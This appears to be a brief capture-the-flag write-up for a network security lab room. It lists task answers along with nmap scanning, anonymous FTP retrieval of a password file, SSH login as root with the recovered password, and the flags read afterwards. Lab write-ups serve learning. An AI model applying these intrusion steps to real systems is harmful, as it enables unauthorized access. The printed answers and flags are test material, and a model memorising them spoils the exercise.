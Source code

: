 # Network Security

## Task 1

> host firewalls


## Task 2

> recon


## Task 3

```shell
nmap 10.10.160.200

ftp 10.10.160.200
	anonymous
	ls
	get secret.txt
	exit

cat secret.txt
```


### Task 3.1

```shell
cat secret.txt
```

> ABC789xyz123


### Task 3.2

```shell
ssh root@10.10.160.200
	ABC789xyz123
	
	pwd
	ls
	cat flag.txt
```

> THM{FTP_SERVER_OWNED}


### Task 3.3

```shell
	cd /home
	ls
	cd librarian
	pwd
	ls
	cat flag.txt
```

> THM{LIBRARIAN_ACCOUNT_COMPROMISED}


